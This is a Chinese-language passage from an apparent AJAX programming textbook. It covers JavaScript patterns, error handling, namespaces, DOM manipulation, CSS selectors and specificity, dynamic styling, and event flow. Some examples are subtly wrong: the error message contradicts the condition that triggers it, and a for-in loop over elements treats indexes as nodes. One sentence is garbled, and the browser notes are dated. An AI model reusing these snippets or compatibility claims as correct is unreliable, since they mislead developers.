装饰器模式允许动态地向对象添加额外行为。装饰器将一个新对象包装在原始对象周围并为其添加新功能；但是，必须保持原始对象的接口。它们是子类化的灵活替代方案，区别在于子类化在编译时添加行为，而装饰器在运行时添加行为。使用装饰器模式，你可以向单个对象添加功能，而保持其他类似对象不变。

```javascript
entAjax.Panel = function() {
  this.title = "Standard Panel";
}

var myWindow = new entAjax.Panel();
// 使 myWindow 可滚动
myWindow.scroll = function() { }
```

这同样是另一个在 JavaScript 编程中不必要的模式示例。

## 线程

与经典继承一样，其他编程语言的另一个常用特性是线程。一些 AJAX 开发人员喜欢想象 JavaScript 中有线程，但在这方面我们无法赞扬 JavaScript 引擎的优点，因为它实际上在单线程中运行。

话虽如此，在 JavaScript 中复制线程能力可能是拥有响应式用户界面应用程序和构建可用性灾难之间的区别。为了保持应用程序用户界面的响应性，你可以使用`setTimeout`和`setInterval`函数，使进程不是连续的，从而为 Web 浏览器提供一些时间来更新用户界面或响应用户交互。

你还可以使用`setTimeout()`和`setInterval()`函数来执行轮询操作，如下所示：

```javascript
function poll(){}

window.setInterval(poll, 1000); // 每秒调用 poll 函数
```

## 错误处理

对于大多数开发人员来说，编程的另一个重要且相当标准的方面是处理错误。JavaScript 对错误处理的支持与 Java 或 C# 语言类似。就像这些服务器端语言一样，JavaScript 提供了相同类型的`try` / `catch` / `finally`语句块。

任何存在未知错误发生高风险代码，例如使用`XMLHttpRequest`对象时，都可以包含在`try`块中；当错误被抛出时，无论是由 JavaScript 引擎抛出还是通过代码中的`throw`语句显式抛出，脚本执行都会跳转到`catch`块。

在`catch`块中，可以访问错误对象以深入了解导致问题的原因。`Error`对象暴露了用于访问错误消息、描述、名称和编号属性的属性。

处理错误的最后阶段是`finally`块，它保证在代码完成之前被执行；这是清理可能需要手动垃圾回收的任何资源的理想场所。以下展示了使用 JavaScript 各种错误处理功能的简单示例。

```javascript
try {
  var n = Math.random();
  if (n > 0.5) throw new Error("n is less than 0.5");
}
catch(err)
{
  // 在这里处理原生错误对象
  alert(err.message + " - " + err.name + " - " + err.number);
}
finally
{
  // 如果需要，在这里进行清理
}
```

## 命名空间

编写 JavaScript 代码的第二个常规且重要的方面是使用命名空间。很多人都知道，命名空间是一种防止对象、属性、函数或方法的名称相互干扰的方式。

JavaScript 中没有对命名空间的显式支持；然而，鉴于越来越多的 AJAX 框架变得可用，以及各种 JavaScript 代码片段可以轻松地包含在网页中，命名空间在 JavaScript 应用程序中变得极其重要。

由于 JavaScript 代码既不被编译也不是强类型的，因此很容易在不知情的情况下覆盖或重新定义一个变量；因此，当命名冲突发生时，可能会导致意外且难以调试的问题。

要定义一个命名空间，你可以创建一个空对象，它没有默认的属性或方法，通过对象变异可以添加额外的命名空间、类或静态成员。本书中的大多数代码示例都使用`entAjax`命名空间，定义如下：

```javascript
if (typeof entAjax == "undefined") {
    entAjax = {};
}
```

这段代码简单地检查命名空间是否已经被定义；如果没有，它将全局`entAjax`变量设置为一个空的内联 JavaScript 对象。

向`entAjax`命名空间添加公共属性、静态方法、类或其他命名空间非常容易。例如，添加一些可用于检查浏览器身份的公共属性就像这样简单：

```javascript
var ua = navigator.userAgent;
entAjax.IE = (ua.indexOf("MSIE") > 0?true:false); // Internet Explorer
entAjax.FF = (ua.indexOf("Firefox") > 0?true:false); // Firefox
entAjax.SF = (ua.indexOf("Apple") > 0?true:false); // Safari
```

现在你已经掌握了处理 JavaScript 最重要方面的知识，例如面向对象编程（OOP）、继承和错误处理。稍后，你将了解由于 JavaScript 的多功能性而可用的一些其他有用技术，例如接口、多重继承和面向切面编程。

尽管其中一些想法在经典语言中难以实现，但 JavaScript 提供了相对轻松地实现更复杂编程模式的方法。这是贯穿全书的一个关键主题。

## 文档对象模型

我们简要讨论了 JavaScript 的一些强大而独特的特性。在很大程度上，如果你了解其他面向对象语言，JavaScript 是容易理解的。

现在，我们要介绍一个比 JavaScript 更独特的东西，即文档对象模型（DOM）。虽然 JavaScript 负责完成大部分应用程序处理，但 DOM 提供了操作构成应用程序视觉方面的 HTML 元素的能力。

DOM 定义并提供了一个 API，可以通过 JavaScript 访问，允许你操作 XML 或 HTML 文档层次结构。与网页上的 HTML 进行交互正是 AJAX 应用程序相对于传统 web 应用程序的优势所在；它使你能够动态更改文档内容和样式，而无需从服务器请求新的 HTML 文档。

在传统的 web 应用程序中，对应用程序 HTML 的任何更改都是通过向服务器发出完整页面请求来执行的，该请求会刷新整个网页，而不考虑页面的哪些小部分已经更改。另一方面，在 AJAX 应用程序中，开发人员可以使用 DOM 独立更新网页的各个部分。响应式 AJAX 应用程序的真正关键之一是对 DOM 的高效操作。

DOM 通常被误认为仅仅是操作网页中节点的接口。然而，DOM 规范有几个不同的领域。最常实现的规范是 DOM Level 2，它有四个主要领域：

- 核心规范处理操作层次节点集的接口，如 XML 和 HTML；
- HTML 规范增加了对特定 HTML 元素的支持，如表格、框架等；
- 样式规范用于处理元素样式和文档样式表；
- 最后是事件规范，它规定了事件处理程序如何附加到 DOM 节点或从 DOM 节点移除。

网页的 DOM 表示反映了构成页面的 HTML 元素的层次结构。正如大多数人所知，一个正常的 HTML 文档具有树结构，以`<html>`元素为根，后面跟着`<head>`和`<body>`元素以及其他各种元素。

以下是一个简短的 HTML 文档，定义了一个简单的网页来显示客户姓名；这是将 JavaScript`Customer`对象与 DOM 结合起来显示数据的起点。

```html
<html>
<head>
<script type="text/javascript">
// no script here yet
</script>
</head>
<body>
<div><strong>Customer</strong></div>
<span id="domFirstName">John</span>&nbsp;<span id="domLastName">Doe</span>
</body>
</html>
```

对于那些熟悉在各种服务器端语言中实现的 XML DOM 的人来说，HTML DOM 应该很容易理解。与 XML DOM 一样，你可以使用 DOM 操作的节点只是 HTML 元素，如`<div>`或`<strong>`。

DOM 规范定义的最原始的对象是`Node`对象。解析后的有效 DOM 对象是一个`Node`对象的层次结构，其中一些节点实现了更专门的接口，如`Elements`、`Attributes`或`Text`。

HTML 层次结构中的每个元素在 DOM 中都表示为一个`Node`对象，例如，实现`Element`接口的节点可以属于父`Node`，包含子`Node`，拥有同级`Node`，以及属性`Node`对象。

许多编程环境对 W3C 指定的 DOM 标准有不同的解释。同样，当今可用的各种 Web 浏览器在不同程度上实现了该规范。我们关注 W3C 标准，但在需要时会指出一些值得注意的例外情况。

### 基础

与 DOM 的交互是直接的，只有一些细微之处。首先，你只需要知道一些基础知识，例如如何查找节点、移除节点、更新节点和创建节点。随着本书的进展，我们将探索更多 DOM 的用法。

让我们从一个通过 JavaScript 操作 DOM 的简单示例开始，并继续使用上一节中的 JavaScript`Customer`对象，在网页中显示单个客户的信息。为此，我们需要将 JavaScript 代码放入网页骨架中。我们更新后的网页，包含`Customer`对象和 DOM 代码，如下所示：

```html
<html>
<head>
<script type="text/javascript">
function Customer() {
this.fName = '';
this.lName = '';
this.getFullName = function()
  {
return this.fName + ' ' + this.lName;
  };
this.showCustomer = function()
  {
var domFirstName = document.getElementById('domFirstName');
var domLastName = document.getElementById('domLastName');
var textFirstName = document.createTextNode(myCustomer.fName);
var textLastName = document.createTextNode(myCustomer.lName);
domFirstName.appendChild(textFirstName);
domLastName.appendChild(textLastName);
  };
}

var myCustomer = new Customer();
myCustomer.fName = 'John';
myCustomer.lName = 'Doe';

</script>
</head>
<body onload="myCustomer.showCustomer();">
<div><strong>Customer</strong></div>
<span id="domFirstName"></span>&nbsp;<span id="domLastName"></span>
</body>
</html>
```

首先要注意的是，在`<body>`元素内部，`<body>`元素有一些容器`<div>`元素，容器`<div>`元素和一个`<style>`元素，`<strong>`，使 Customer 标题以粗体显示。

后两个`<span>`元素具有`id`属性，这些属性在 DOM 层次结构中唯一标识这些节点，`<body>`元素还有一个额外的属性`onload`。顾名思义，`onload`是一个事件，你可以为其分配一些 JavaScript 代码，在页面完全加载后（包括所有 HTML 和图像）调用。

你可以使用`<body>`元素上的`onload`属性来引导示例使其启动并运行，这可以被视为来自 C++ 的`int main()`函数。我们将在下一章中更仔细地研究事件和引导 AJAX 应用程序，但目前，使用`<body>`元素上的`onload`属性应该足够了。

我们将`onload`事件处理程序定义为`myCustomer`对象的`showCustomer()`方法；该方法在页面加载且 DOM 准备好访问时运行。

要将客户姓名放入网页中，首先需要发生的事情是，你需要找到已经存在的要更新的 DOM 节点，或者创建新的 DOM 节点并将其插入文档中。

你可以通过几种不同的方式找到要更新的特定 DOM 节点。首先，你可以通过从文档元素开始导航 DOM 层次结构，并使用 DOM`Node`对象的`childNodes`集合来获取对所有子节点的引用列表，从而找到要更新的`<span>`元素。

类似地，你可以使用`Node`对象的`previousSibling`或`nextSibling`属性来访问同级节点，或使用`Node`对象的`firstChild`属性来访问上下文节点的第一个子节点。

当然，你只有在知道节点在 DOM 层次结构中的确切位置时，才能使用这种查找 DOM 节点的方法。在设计时甚至运行时，通常不可能知道节点在 DOM 中的确切位置，而且这往往会导致脆弱的代码——当然，我们不想编写脆弱的代码。

为了避免这种脆弱性，在你的`showCustomer()`方法中，使用`getElementById(elementId)`方法来选择`document`对象（`getElementById(elementId)`方法所属的宿主对象）是一个全局对象，对应于 DOM 层次的根节点。

`getElementById(elementId)`方法是 DOM 编程的中流砥柱。顾名思义，`getElementById(elementId)`会在 DOM 中查找第一个 ID 属性等于传递给该方法的`elementId`的节点。

该方法返回对 DOM`Element`对象的引用，如果不存在具有该 ID 的元素，则返回`null`，调用方式如下：

```javascript
document.getElementById('domFirstName')
```

由于`getElementById()`函数使用得极为频繁，大多数 AJAX 框架都将其包装在一个名为`$()`的自定义短函数中。在本书的其余部分，我们使用该方法而不是`document.getElementById()`。


然后，你可以获取对 DOM 文档中以下元素的程序性引用：

```html
<div id="domFirstName"></div>
```

在 DOM 文档中查找元素的各种方式中，通过 ID 访问通常是最简单和最安全的方式。尽管如此，由于元素 ID 很容易被重复，甚至可以通过脚本动态生成，从而规避验证错误，你总是冒着找到不想要的元素的风险。虽然这不是严格强制的，但 DOM 节点 ID 在文档中应该是唯一的。

### 操作 DOM

你不仅需要具备在 DOM 中查找节点的能力，而且通常还需要操作这些节点或创建全新的节点。在客户类示例中，既然你已经获取了对客户名字和姓氏的 DOM 节点的引用，你就需要更新这些节点的值以反映 JavaScript 对象中的值。

要以 DOM 标准方式设置节点的文本，使用`createTextNode()`方法在文档中创建文本节点。这会在内存中创建 DOM 节点，但不会将其附加到 DOM 层次结构中或渲染到屏幕上。

要将节点渲染到屏幕上，在作为现有 DOM 节点引用的 Node 对象上使用`appendChild()`方法。在客户示例中，你需要将文本节点附加到代表名字`<span>`元素的 DOM 节点上，如下所示：

```javascript
domFirstName.appendChild(textFirstName);
```

调用`appendChild()`方法后，`textFirstName`文本节点随即显示在包含它的`domFirstName`节点内。

在 AJAX 应用程序中，创建文本节点肯定有其用武之地，但创建 DOM 节点最常用的方法是 Document 对象的`createElement()`方法，它使用给定的元素名称创建实际的 HTML 元素节点。与文本节点一样，元素节点可以使用`appendChild()`方法附加到现有节点，从而成为活动 DOM 的一部分。

尽管我们这里没有使用它们，但还有其他重要的 DOM 方法用于操作节点，例如`setAttribute()`和`getAttribute()`用于访问节点属性值，`cloneNode()`用于轻松创建节点副本，其中布尔参数指定是否也应复制所有子节点。

当然，W3C 用这些特定方法定义了 DOM 标准，并不意味着所有 Web 浏览器都遵循它们；AJAX 应用程序中使用的最重要的 DOM 节点属性之一实际上并非由 W3C 创建，而是事实上的标准，因为它由 Microsoft 创建并已在所有浏览器中实现。

我们所指的臭名昭著的属性是 Node 对象上的`innerHTML`属性。`innerHTML`是一种以简单 HTML 字符串形式获取或设置几乎任何 DOM 节点内容的简单方法，而不像已讨论的节点操作那样繁琐且缓慢。

尽管 Microsoft 可能并不总是遵循标准，但这恰恰说明一点常识大有裨益。然而，`outerHTML`属性就没那么幸运了，在除 Internet Explorer 之外的浏览器中仍然需要一些自定义 JavaScript 才能工作。

在现实世界中，前面示例中的`showCustomer()`方法实际上看起来更像这样：

```javascript
this.showCustomer = function()
{
  var domFirstName = document.getElementById('domFirstName');
  var domLastName = domFirstName.nextSibling;
  domFirstName.innerHTML = myCustomer.fName;
  domLastName.innerHTML = myCustomer.lName;
};
```

另一个较少使用的`innerHTML`替代方案是使用 DOM 节点的`innerText`（Internet Explorer）或`textContent`（符合 W3C 标准的浏览器）属性来设置 DOM 节点的文本内容，它将 DOM 节点的内容设置为某个文本字符串（对字符串中的任何 HTML 进行 HTML 编码）。

## 层叠样式表

既然你已经在 JavaScript 中创建了一个对象，并使用 DOM 在网页上显示了对象中的一些数据，接下来你就可以继续处理如何格式化你的网页，使其更加美观。

Web 上的格式化长期以来一直通过层叠样式表（CSS）实现，AJAX 应用程序也不例外。事实上，W3C DOM Style 规范定义的功能是 AJAX 的必要组成部分，应用程序样式可以通过 CSS 轻松定义，并使用 DOM API 进行操作，同时实现用户界面样式和结构的清晰分离。

尽管许多 AJAX 技术在企业开发语言中都有对应物，但 CSS 是一种相当独特的方式，用于将样式应用于应用程序 HTML 标记。使用 CSS 允许开发人员创建应用于文档的样式声明，可以逐个元素应用，也可以通过 DOM 节点选择规则应用。

CSS 规则可以直接在元素上通过`style`属性定义，在 HTML 文档的`<style>`元素内定义，或者方便地分组在单独的文件中并从 HTML 文档链接——从而方便地将样式与文档结构分离。

可以使用 CSS 应用的一些样式包括视觉方面，如背景颜色、字体、边框和内边距，以及布局方面和视觉效果，如透明度。样式声明采用分号分隔的名称-值对形式，而多个声明可以在冒号分隔的列表中指定。

规则通过将样式声明与选择器结合而创建，其中选择器负责定义样式应应用于哪些 HTML 元素。一个简单的 CSS 规则，用于设置`class`属性值为 `"myHighlightClass"`的某些 HTML 元素的宽度和高度，可能如下所示：

```css
.myHighlightClass {
  background-color:red;
}
```

类选择器适用于将单一样式应用于多个 HTML 元素，而 ID 选择器可用于将样式应用于具有特定 ID 属性值的单个 HTML 元素，例如在下面这种情况下，ID 必须是 `"myHeaderElement"`：

```css
#myHeaderElement {
  width:200px;
  height:200px;
}
```

你不仅可以使用 CSS 定义在文档渲染时应用于 DOM 节点的静态样式，而且 DOM API 还使开发人员能够动态更改元素样式。DOM API 在大多数节点类型上暴露了一个`style`对象，通过它可以以编程方式定义样式。

尽管这一切听起来不错，但现实情况是，并非所有浏览器都支持完整的规范，更糟糕的是，不同的浏览器以不同的方式解释标准——Internet Explorer 通常是破坏 CSS 的罪魁祸首。幸运的是，你可以使用几种不同的技术来避免这个问题。

### 继承和层叠

样式应用于 HTML 文档中的各种元素基于两个概念：继承和层叠。继承非常简单，如果样式的值设置为`inherit`，该值将是父元素的计算值。另一方面，层叠使用几条规则来确定哪些样式应用于哪些元素。

#### 样式来源

样式的来源是用于过滤哪些样式应用于给定元素的第一条规则。样式表可以有三个来源之一，即作者（编写 HTML 的人）、用户（查看 HTML 的人）和用户代理（用于查看 HTML 的设备，通常是计算机上的 Web 浏览器）。

样式的优先级按相同的顺序排列，使得 HTML 作者定义的样式最重要，Web 浏览器软件应用的默认样式最不重要。在一种情况下，通过使用`!important`修饰符，用户样式可以覆盖作者样式。

### 特异性

用于确定样式的第二个规则是 CSS 选择器的特异性；更具体的选择器优先于更一般的选择器。根据 W3C 标准，特异性可以按如下方式计算：

1. 计算选择器中 ID 属性的数量（= a）。
2. 计算选择器中其他属性和伪类的数量（= b）。
3. 计算选择器中元素名称的数量（= c）。
4. 忽略伪元素。
5. 将 a、b 和 c 的值连接起来，即可得到样式的特异性。

### 顺序

应用样式时的最终决定因素是样式的定义顺序。如果两个 CSS 选择器的特异性完全相同，则后出现的将被使用。根据这些规则，我们来看看最具体的样式，即那些直接定义在 HTML 元素上的样式。

#### 内联样式

将 CSS 样式声明应用于 HTML 元素最直接的方式是使用元素的`style`属性。在 Web 早期，如果你想将网页中的某些文本设置为特定颜色并加粗字体，你会使用一些 HTML 元素，如下所示：

```html
<span id="domFirstName">
<font color="red">
<strong>John</strong>
</font>
</span>
```

这不仅语法冗长，需要许多元素来描述一些相当简单的元数据，而且还将文档内容的视觉样式与文档的实际结构紧密耦合——这并不理想。

使用 HTML 元素的`style`属性要简单得多，无论是在文档中的实际标记方面，还是在更改文档样式方面。例如，如果你想使用 CSS 将文档中客户名字的颜色更改为红色并加粗字体，只需将周围`<span>`元素的`style`属性设置为类似以下的值：

```html
<span id='domFirstName' style='font-weight:bold;color:red;'>John</span>
```

在这种情况下，脱离严格的基于节点的 DOM 层次结构是有意义的，因为它既减少了文档中的元素数量，又将所有文档格式信息集中在一处。

尽管这当然比`<font>`和`<strong>`HTML 元素有所改进，但你仍然可以做得更好。内联样式的特异性是最高的，因为它们：

- 由文档作者定义。
- 被视为使用 ID 选择器，这使得关于特异性讨论中的“a”值等于 1（我们稍后将学习 ID 选择器）。
- 是最后处理的样式，因此具有进一步的优先权。

所以，如果你需要确保样式以特定方式应用，内联样式肯定是首选。

#### 样式表

为了在文档结构和样式之间增加一层间接性，你实际上可以在一个完全独立的 CSS 文档中定义你的样式及其应用的元素，或者将 CSS 文本放在 HTML 文档`<head>`元素中的特殊`<style>`元素内。

`<style>`元素上的`type`属性是必需属性，应设置为`text/css`。要确定任何给定样式具体应用于 DOM 中的哪些节点，请使用 CSS 规则，它由选择器和声明组成，其中选择器指定 CSS 声明应应用于哪些 DOM 元素。

例如，要设置客户元素的颜色和字体权重，请在 HTML 文档中创建一个包含以下 CSS 文本的特殊`<style>`元素：

```html
<style type="text/css">
span {
color: red;
font-weight: bold;
  }
</style>
```

当 Web 浏览器找到这个`<style>`元素时，它知道其中的所有内容都应作为 CSS 规则进行处理，并将这些规则应用于文档中的元素。

此示例使用了与之前相同的样式声明，但使用了一个选择所有`<span>`元素并将给定声明应用于每个元素的 CSS 规则。对于给定的 CSS 规则，不仅可以定义多个声明，还可以有多个用逗号分隔的选择器，以便相同的声明可以应用于任意数量的元素。

我们让你自己去查看可以使用的各种样式声明；然而，我们将快速提及在样式化元素时可以使用的各种 CSS 选择器——以及各种 Web 浏览器对这些选择器的支持程度。

### ID

我们已经举了一个最简单的选择器的例子，它仅基于 HTML 元素名称。选择器类型有几组，例如 ID、上下文和伪类，以及类（或更一般地，属性）选择器。

ID 选择器，类似于使用`getElementById(elementId)`，依赖于 DOM 节点的 ID 属性来应用样式。基于 ID 属性将样式应用于特定客户名称 DOM 节点的语法是：

```css
#domFirstName {color: red;}
```

这与前面的示例效果相同，只是这里你只选择了包含客户名字的`<span>`元素。话虽如此，仅基于节点的`id`属性将样式应用于 DOM 节点可能显得有些局限，尽管它对于 CSS 布局和构建基于 AJAX 的组件非常重要。

### 上下文选择器

另一方面，上下文选择器允许你根据元素在 DOM 层次结构中出现的上下文将样式应用于元素。通常，上下文选择器可以通过分别在元素名称之间使用空格或`>`来指定父子关系，并且还可以通过使用`+`来表示兄弟关系。各种上下文运算符的示例详见表 2.2。

#### 表 2.2 上下文运算符

| 选择器 | 描述 | 兼容性 |
| --- | --- | --- |
| `span div` | 任何作为 span 元素后代的 div 元素 | IE 6, Firefox, Safari, Opera |
| `span > div` | 任何作为 span 元素直接子元素的 div 元素 | IE 7, Firefox, Safari, Opera |
| `span + div` | 任何前面紧跟着一个 span 元素的 div 元素 | IE 7, Firefox, Safari, Opera |

### 伪类选择器

伪选择器分为两组：伪元素选择器和伪类选择器。大多数人不熟悉伪元素选择器，并且当前大多数 Web 浏览器尚不支持它们。

然而，伪类选择器已经支持了一段时间，并且最常用于处理`<a>`元素，该元素用于定义 HTML 文档之间的链接。`<a>`元素有五个可能的伪类与之关联，分别是 link、visited、hover、active 和 focus。你可以在 CSS 规则中通过将规则与伪类用冒号分隔来使用伪选择器：

```css
A:link    { color: red }    /* 未访问的链接 */
A:visited { color: blue }   /* 已访问的链接 */
A:hover   { color: yellow } /* 鼠标悬停 */
A:active  { color: lime }   /* 活动链接 */
A:focus   { color: orange } /* 链接获得焦点 */
```

指定这些规则的顺序时要小心，因为 CSS 规则是按定义顺序应用的。所以，在这种情况下，如果用户的鼠标悬停在`<a>`元素上并且该元素获得焦点，那么最终应用的样式将是`color:orange`。

Internet Explorer 6 仅支持`<a>`元素上的伪类，而例如 Firefox 1.5 则支持所有元素上的其他伪类，如 first-child。

### 类和属性选择器

最常用的 CSS 选择器是类选择器，或者更一般地说，是属性选择器。属性选择器允许你基于元素上特定属性的存在，或者更精细地基于属性的实际值，将 CSS 声明应用于 HTML 元素。

属性选择器的语法类似于 XPath，如下例所示。第一个选择器将选择所有具有名为`foo`的属性（无论属性值如何）的`<div>`元素，第二个选择器将选择所有具有`foo`属性且值等于`bar`的`<div>`元素，最后一个选择器将返回所有`foo`属性值在以空格分隔的列表中包含值`bar`的`<div>`元素。

```css
div[foo] {…}
div[foo="bar"] {…}
div[foo~="bar"] {…}
```

属性选择器的一个特殊情况是类选择器。HTML `class`属性是一个 DOM 指定的属性，CSS 使用它来简化第三个选择器的冗长语法。

类属性可以用于简洁的语法，而不是基于任意属性名选择元素。以下两个选择器是等效的：

```css
*[class~="heading"] {…}
*.heading {…}
```

第一个示例使用属性选择器选择所有具有包含值`heading`的`class`属性的元素（使用`*`通配符），而第二个选择器使用更紧凑的类选择器语法来实现相同的目的。类选择器使用点号将类名与元素名分开，如示例所示。

你可以轻松地将任意数量的这些选择器类型组合成单个选择器；然而，复杂的选择器——尤其是应用于大量 HTML 元素的那些——可能会导致性能问题。

### 动态样式

如果没有动态样式，AJAX 将不会是一种如此强大的技术。如前所述，W3C DOM 不仅定义了操作 DOM 节点的 API，还公开了一个 API，用于在节点级别以及通过样式表对象本身在文档级别上处理元素样式。

这意味着你可以轻松地在运行时操作文档的样式，从而使用户交互可以改变文档的样式和布局。

如果你没有 CSS 来为 documents 应用样式，那么要改变你之前查看的 HTML 片段的样式将会相当困难，在那里你使用了`<font>`和`<strong>`元素来定义客户姓名的外观。该 HTML 片段看起来像这样：

```html
<span id='domFirstName'>
<font color="red">
<strong>John</strong>
</font>
</span>
```

假设我们想要在域模型中的数据发生某些变化时，将客户姓名的颜色从红色改为蓝色。要实现这一点，需要一些通过 DOM 操作元素的 JavaScript，如下所示：

```javascript
// 通过 Id 选择 DOM 节点
var domFirstName = document.getElementById("domFirstName");

// 将 FONT 元素作为 firstChild 选择
var domFirstNameFont = domFirstName.firstChild;

// 最后将 FONT 元素的 color 属性设置为新值
domFirstNameFont.setAttribute("color","blue");
```

不仅需要大量的 JavaScript 代码来设置颜色，而且这段代码与文档结构紧密耦合，因为它假设`<font>`元素始终是你通过 ID 选择的主`<span>`元素的第一个子元素。

认为人们会愿意经历所有这些麻烦是相当不现实的；幸运的是，使用 DOM Style 规范，我们不必这样做。

### Style 对象

当然，改变 HTML 元素外观最简单的方法是使用 HTML DOM 中定义的`style`对象。`style`对象公开了元素可以拥有的所有样式，以便可以通过 JavaScript 轻松设置或读取它们。有许多不同的样式可以访问，例如 color，像这样：

```javascript
node.style.color = 'red';
```


虽然简单，但直接在 HTML 元素上设置样式不一定是改变元素样式的最佳方式——这直接违背了我们本能地将样式与内容分离的驱动力。当然，务实地说，你也可以认识到，在某些情况下，使用 `style` 属性仍然是改变文档外观的好方法。归根结底，如果你通过 JavaScript 设置 HTML 元素的样式，通常这只是一个暂时的运行时操作，而不是持久化在实际文档结构中的东西。如果你只设置少数几个元素的样式，并且必须快速或临时地完成，那么使用 `style` 对象是设置元素样式的理想方式。

### `class` 属性

动态样式也可以通过使用 HTML 元素的 `className` 读写属性来实现，该属性提供对 HTML 节点上 `class` 属性的访问。它等同于使用 DOM 的 `setAttribute("class", val)` 和 `getAttribute("class")` 方法，因此，`className` 属性和 `class` 属性的语义是相同的。正如你在关于 StyleSheets 的部分中学到的，你可以通过在层叠样式表中使用类名选择器（或属性选择器）来设置元素的样式。然而，要通过改变 `className` 属性来实际改变元素的外观，需要在文档的某个样式表中存在选择该节点的新 `className` 的规则。这需要比直接设置 HTML 元素的样式更多的规划，但一般来说，根据 AJAX 应用程序的复杂程度，这是相当容易规划的。因此，如果你想使用 `className` 属性来改变客户姓名的样式，你首先需要确保文档的样式表为每个类定义了 CSS 规则。

```html
<head>
<script type="text/javascript">
function changeStyle() {
var domFirstName = document.getElementById("domFirstName");
domFirstName.className = "headingNew";
}
</script>
<style>
span.heading {
color:red;
}
span.headingNew {
color:blue;
}
</style>
</head>
```

前面的代码定义了两个独立的 CSS 规则，一个选择所有 `class` 属性等于 `heading` 的 `<span>` 元素，第二个选择所有 `class` 属性等于 `headingNew` 的 `<span>` 元素。每个选择器都将不同的颜色应用于 `<span>` 元素的内容。然后，可以将某些事件（如按钮点击）附加到你编写的 `changeStyle()` 函数上，这样当按钮被点击时，包含客户名字名的 `<span>` 元素的 `className` 属性会从 `"heading"` 变为 `"headingNew"`，从而导致客户名字名的颜色发生变化。这种功能使你能够创建丰富而动态的用户界面。

### StyleSheet 对象

使用 HTML 元素的 `style` 属性或 `className` 属性来改变外观在操作少量元素时效果很好。另一方面，在构建 AJAX 应用程序时，经常会出现需要改变大量元素样式的情况，例如在 AJAX 电子表格应用程序中选择某一列时。在这种情况下，所选列中的每个单元格可能需要通过 `style` 属性显式设置背景颜色和边框，或者将 `className` 属性从例如 `"unselected"` 改为 `"selected"`。这需要你在 JavaScript 中选择并遍历一组 HTML 元素，并对每个元素改变 `style` 或 `className`——这可能会很慢。

正是在这种情况下，可以使用最终且最强大的动态样式方法。这种方法是通过全局的 StyleSheet 对象来创建、删除和直接更改 CSS 规则。W3C 定义的 StyleSheet 对象使用 `cssRules` 属性将 CSS 规则列表公开为数组。规则可以使用 `insertRule()` 方法添加到 StyleSheet 中，或使用 `deleteRule()` 方法从 StyleSheet 中移除。Internet Explorer 有稍微不同的语法，分别使用 `rules`、`addRule()` 和 `removeRule()`。直接操作 StyleSheet 的能力意味着开发人员可以通过改变规则本身来改变所有匹配某个 CSS 选择器的对象的样式，而不是改变每个特定 HTML 元素的 `class` 或 `style` 属性。以下是两种不同的方法，它们将所有使用 `"mouseOver"` 类的 `<span>` 元素的样式改变为使其内容的颜色为 `"red"`：

```javascript
function changeStyle() {
var elems = document.getElementsByTagName("span");
for (var elem in elems) {
if (elem.className == "mouseOver") {
elem.style.color = "red";
    }
  }
}
```

```javascript
function changeStyleSheet(stylesheetIndex, ruleIndex) {
var styleSheet = document.styleSheets[stylesheetIndex];
if (entAjax.IE)
styleSheet.rules[ruleIndex].style.color = 'red';
else
styleSheet.cssRules[ruleIndex].style.color = 'red';
}
```

`changeStyle()` 方法遍历所有 `<span>` 元素并设置 `style` 的 `color` 属性，而 `changeStyleSheet()` 则直接访问 CSS 规则并改变全局规则，这会影响所有匹配该规则选择器的 HTML 元素。直接改变样式表的一个细微之处是，你必须知道样式表在文档中的索引以及规则在样式表中的索引。通常很容易知道样式表和规则的索引以便直接访问；然而，在某些情况下，这些索引是未知的，需要通过遍历样式表来找到相关的样式表和规则来发现（并缓存）。

一般来说，导致 AJAX 应用程序变慢的两件事是改变样式和改变文档结构。根据这些变化的影响，重新渲染 HTML 文档可能需要很长时间。小心——全局使用 `stylesheet` 对象并不总是好主意——通过 `stylesheet` 改变样式会有真正的性能损失，而且发现或缓存特定样式也可能很慢。（参见第 5 章"设计到部署"。）

## 事件

AJAX 是一种事件驱动的编程范式，大多数以 UI 为中心的开发技术也是如此，其中信息流和代码执行都是根据用户与网页的交互来确定的，如鼠标点击和键盘按键。为此，在 AJAX 中，你可以将用户与 HTML DOM 或应用程序表示的交互与基于 JavaScript 的应用程序领域模型联系起来。没有事件，你的应用程序将完全静态，因为用户与界面的交互将永远不会被捕获，因此无法对某些用户手势采取任何操作。虽然大多数事件是由用户与 DOM 交互引起的，但也有一些事件是由浏览器本身触发的，例如文档加载和卸载时，这些事件在 AJAX 开发中起着重要作用，用于在网页加载时启动应用程序，在网页卸载时进行垃圾回收。

尽管事件对于构建成功的 AJAX 应用至关重要，但如果机制未被充分理解并谨慎处理，事件也可能成为主要的麻烦来源。当用户与 DOM 交互而触发事件时，所有已注册监听该事件的处理函数（即 JavaScript 函数）都会被触发。最常见的 DOM 事件大概是 `onclick` 事件，它响应用户对 HTML 元素的鼠标点击。当然，还有许多其他事件需要处理，例如鼠标拖动或键盘输入，其中一些特定于某些浏览器或技术。

在任何浏览器中触发事件时，都会创建一个事件对象，其中包含有关事件的信息，例如事件在屏幕上发生的坐标、触发事件的元素等等。在 Internet Explorer 中，事件对象是一个全局对象，可以从代码的任何位置访问；而在 Firefox 和 Safari 中，根据 W3C 标准，事件对象作为参数传递给事件处理函数。为了调和这些浏览器之间事件模型的差异，我们引入了一个使用外观（Façade）模式的自定义事件管理器，以抽象出浏览器 API 中的任何差异。

### 外观模式

JavaScript 中最常实现的软件设计模式之一就是外观模式。当你创建一个新的 API 或接口，目的是使另一个 API 更易于使用或更简单时，就出现了外观模式。我们经常在 JavaScript 中使用外观来掩盖跨浏览器开发的复杂性。例如，只需通过外观调用单个事件方法，而不是每次都检查应用正在运行的是哪种浏览器并调用相应的函数，这样要好得多。

### 事件流

DOM 事件标准定义了两种事件流，它们差异显著，并且可能对应用产生相当大的影响。事件标准提供了两种类型的事件流：捕获和冒泡。与许多 Web 技术一样，在它们成为标准之前，Netscape 和 Microsoft 以不同的方式实现了它们。Netscape 选择前者，而 Microsoft 选择后者。幸运的是，W3C 决定结合使用这两种方法，大多数新浏览器都遵循这种双重事件路径方法。

